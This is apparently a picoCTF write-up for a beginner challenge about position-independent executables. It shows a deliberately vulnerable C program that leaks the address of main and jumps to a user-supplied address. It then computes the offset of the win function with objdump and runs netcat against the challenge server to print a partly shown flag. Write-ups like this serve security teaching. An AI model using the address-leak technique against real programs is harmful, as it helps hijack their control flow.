 Can you try to get the flag? Beware we have PIE! Additional details will be available after launching your challenge instance.

---
we have the following code with PIE enabled. 
```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
but it leaks the address of the main function, which means that we can calculate the address of the win function.
```bash
$ objdump -M intel -S vuln | grep main\>:
000000000000133d <main>:
$ objdump -M intel -S vuln | grep win\>:
00000000000012a7 <win>:
```
`win` is located 0x96 bytes before `main`
```bash
$ nc rescued-float.picoctf.net 53312
Address of main: 0x64fa8620233d
Enter the address to jump to, ex => 0x12345: 0x64fa862022a7
Your input: 64fa862022a7
You won!
picoCTF{b4s1c...
```
